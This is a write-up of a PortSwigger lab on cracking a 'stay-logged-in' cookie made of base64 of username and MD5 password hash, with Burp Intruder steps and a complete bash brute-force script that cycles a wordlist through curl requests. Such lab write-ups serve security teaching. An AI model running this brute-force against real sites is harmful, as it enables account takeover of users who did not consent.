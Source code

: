 # Lab: Brute-forcing a stay-logged-in cookie

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his `My account` page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- Wordlists: Candidate passwords
---

# Session Cookie Analysis and Attack Execution

## 1. Stay logged in Option
- When logging in and selecting the "Keep me logged in" option, the processing appears as follows:  
  ![image](https://github.com/user-attachments/assets/26704adc-199f-4482-86e1-a621abeb964f)

---

## 2. Decoding the Cookie
- We know the cookie is encoded in `base64`. After decoding, we obtain the following structure:  
  `wiener:<hash md5>`  

- The value `51dc30ddc473d43a6011e9ebba6ca770` contains 32 hexadecimal characters, suggesting it is an `MD5 hash`:  
  ![image](https://github.com/user-attachments/assets/9062361d-8f9b-4183-8b59-c7c0fb02bbe8)

---

## 3. Sending the Request to Intruder
- We send the request to the Intruder tool, ensuring the session cookie is empty.  
- Then, we add `payload processing` rules as follows:
  1. Compute the MD5 hash of the password.
  2. Add the prefix `carlos` to the hash.
  3. Encode the resulting string in `base64`:  
  ![image](https://github.com/user-attachments/assets/3327d4f6-8126-46ce-afb7-ad0fbd66084a)

---

## 4. Executing the Attack
- Finally, we execute the attack to identify valid payloads:  
  ![image](https://github.com/user-attachments/assets/4b9e1439-eab0-4804-9174-5920037396d3)  
  ![image](https://github.com/user-attachments/assets/417e5ff9-b40f-4f22-956c-a227a9c08275)


We can perform the same attack using a `bash` script:
```bash
#!/bin/bash

url="https://0a1000a3041a58d888ed1b57003c00e2.web-security-academy.net/my-account"
password_file="passwords.txt"
user="carlos"

if [[ ! -f $password_file ]]; then
    echo "Error: The file '$password_file' does not exist."
    exit 1
fi

generate_encoded_value() {
    local password=$1
    local md5_hash
    local encoded_value

    md5_hash=$(echo -n "$password" | md5sum | awk '{print $1}')
    encoded_value=$(echo -n "$user:$md5_hash" | base64)
    echo "$encoded_value"
}

headers=(
    -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
    -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8"
    -H "Accept-Language: es-AR,es;q=0.8,en-US;q=0.5,en;q=0.3"
    -H "Accept-Encoding: gzip, deflate, br"
    -H "Referer: https://0a7f00c6031e1f6f8277ec00004a002d.web-security-academy.net/login"
    -H "Upgrade-Insecure-Requests: 1"
    -H "Sec-Fetch-Dest: document"
    -H "Sec-Fetch-Mode: navigate"
    -H "Sec-Fetch-Site: same-origin"
    -H "Sec-Fetch-User: ?1"
    -H "Priority: u=0, i"
    -H "Te: trailers"
)

while read -r password; do
    # Ignorar líneas vacías
    [[ -z "$password" ]] && continue

    # Generar cookie stay-logged-in
    encoded_value=$(generate_encoded_value "$password")

    # Enviar la solicitud con curl
    response=$(curl -s -w "%{http_code}" -o response.html "${headers[@]}" \
        -b "stay-logged-in=$encoded_value; Session=" \
        -G "$url" --data-urlencode "id=$user")

    # Verificar si la respuesta contiene "Bienvenido"
    if grep -q "Bienvenido" response.html || [[ $response -eq 200 ]]; then
        echo -e "\nPassword: $password"
        echo "Cookie stay-logged-in: $encoded_value"
        break
    fi
done < "$password_file"

rm -f response.html
```

![image](https://github.com/user-attachments/assets/85a88dd5-f401-461b-ac25-50e923e6b576)


